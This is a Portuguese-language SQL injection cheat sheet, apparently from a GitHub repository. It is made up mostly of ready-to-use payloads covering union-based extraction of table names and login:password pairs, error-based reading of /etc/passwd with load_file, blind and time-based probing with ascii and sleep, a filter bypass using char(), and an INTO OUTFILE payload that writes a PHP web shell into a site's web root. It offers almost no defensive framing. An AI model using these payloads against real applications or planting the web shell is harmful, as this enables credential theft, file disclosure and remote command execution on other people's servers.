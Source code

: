 # SQL Injection
Injeção de SQL é uma vulnerabilidade de segurança comum em aplicações web que interagem com bancos de dados. Nesse tipo de ataque, um invasor insere intencionalmente instruções SQL maliciosas nos campos de entrada ou parâmetros de URL de um formulário web, explorando falhas na validação ou sanitização de dados. Quando essas instruções são executadas pelo banco de dados, elas podem permitir que o invasor manipule o comportamento do sistema, como acessar, modificar ou excluir dados, ou até mesmo obter controle total sobre o servidor

## Information Schema
Através do Information Schema é possível obter a tabela com usuários e senhas do sistema e obter as informações nela contidas

Exemplo: ' union select 1,2, group_concat(table_name),4,5 from information_schema.tables where table_schema = "string" %23

Exemplo: ' union select 1,2,concat(login,':',senha),4,5 from table %23

## Error Based
Error Based, como o nome indica, baseia-se no erro que retorna ao tentar realizar uma consulta no banco de dados em algum campo. Com ele, você pode injetar código SQL para descobrir informações sobre a tabela e o banco de dados

Exemplo: ' union select 1,2,3... %23

Exemplo: ' order by 1 or 2 or 3...'

Exemplo: union select 1, column_name, load_file(”/etc/passwd”), 4, 5 from information_schema.columns where table_schema=”database” and table_name=”users” %23

## Blind
Quando não há indícios de que há uma injeção de SQL, alguns testes podem ser usados para verificar a lógica AND e OR do programa

Exemplo: ' and true#
Exemplo: ' or 1=1 union select 1,2#

### Blind Post
Para descobrir informações confidenciais do servidor através da lógica, é possível utilizar a função ascii para descobrir o nome do banco de dados em que a aplicação está localizada, por isso é muito comum utilizar o Burp Suite no modo Repeater para fazer requisições


Example: ' or length(database()) = 7 #

Exemplo: ' or ascii(substring(database(),1,1)) = ascii number for letter # 

Exemplo: ' or database() = char(115,116,114,105,110,103) # 

Exemplo: ' or ascii(substring(select loing from column name limit 0,1),1,1)) = ascii number for letter #

Exemplo: ' union select 1,2,group_concat(table_name),4,5 from information_schema.tables where table_schema="dbmrtur"%23

## Time Based
O Time Based usa a função sleep() para verificar se há uma vulnerabilidade de injeção de SQL, observando se a página demora muito para responder após o envio de um sleep() em uma solicitação ao banco de dados. Se possível, você pode usar if para verificar informações sobre o banco de dados, tabelas e outras informações, como em outras vulnerabilidades

Exemplo: ' or sleep(5)#

Exemplo: ' or if (length(database()) = 5, sleep(5), 0)#

Exemplo: ' or if (database() = char(char(115,116,114,105,110,103)), sleep(5), 0)#

Exemplo: ' or if (ascii(substring(database(), 1, 1)) = 100, sleep(5), 0)#

## SQLi to RCE
Com a injeção de comando SQL, você pode gravar dados no servidor com o comando INTO OUTFILE e o caminho do diretório que deseja salvar

Exemplo: ‘ union all select 1,2,3,4, “string” INTO OUTFILE “/var/www/html/website/file.txt” %23

Exemplo: ‘ union all select 1,2,3,4, “`<?php system($_GET[’parameter’]); ?>” INTO OUTFILE “/var/www/html/website/banners/file.php” %23

## Bypass addslashes
Em alguns casos, devido à forma como foi programado para ser consultado no banco de dados, algumas barras invertidas serão adicionadas à consulta, impossibilitando a realização de consultas com aspas simples, gerando um erro. No entanto, uma das maneiras de contornar esse mecanismo é passar valores de string em decimais separados por vírgulas com a função char()

Exemplo: echo -n “string” | od -An -tdC

Exemplo:-1 union select 1,table_name,3,4,5 from information_schema.tables where table_schema=char(115,116,114,105,110,103)

Site: [https://www.rapidtables.com/convert/number/ascii-hex-bin-dec-converter.html](https://www.rapidtables.com/convert/number/ascii-hex-bin-dec-converter.html)
